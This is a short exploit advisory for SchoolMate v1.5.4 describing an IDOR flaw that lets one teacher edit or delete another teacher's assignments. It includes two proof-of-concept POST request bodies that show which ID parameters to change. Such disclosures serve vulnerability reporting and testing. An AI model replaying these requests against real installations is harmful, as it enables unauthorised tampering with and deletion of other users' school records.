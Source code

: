 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to update and delete assignment that is assigned by other teacher in other class(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

title=1&task=2023-10-07&total=1&assigneddate=%2F%2Fassign1&duedate=00%2F%2F20&editassignment=1&assignmentid=1(CHANGE HERE)&page2=2&selectclass=1&logout=&wastotal=1&wasdate=20.00&page=2
```

```
POST /index.php HTTP/1.1
...
delete%5B%5D=2(CHANGE HERE)&deleteassignment=1&selectassignment=1&page2=2&onpage=1&logout=&selectclass=2&page=2
```